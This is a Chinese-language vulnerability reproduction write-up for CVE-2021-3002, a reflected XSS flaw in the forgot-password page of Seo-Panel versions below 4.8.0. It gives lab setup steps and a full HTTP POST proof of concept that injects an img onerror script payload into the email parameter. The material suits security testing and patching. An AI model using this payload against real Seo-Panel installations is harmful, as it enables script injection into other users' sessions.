


# Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可



## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)




成功弹窗 ,造成 反射型XSS 漏洞


## 漏洞POC


请求包如下


```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```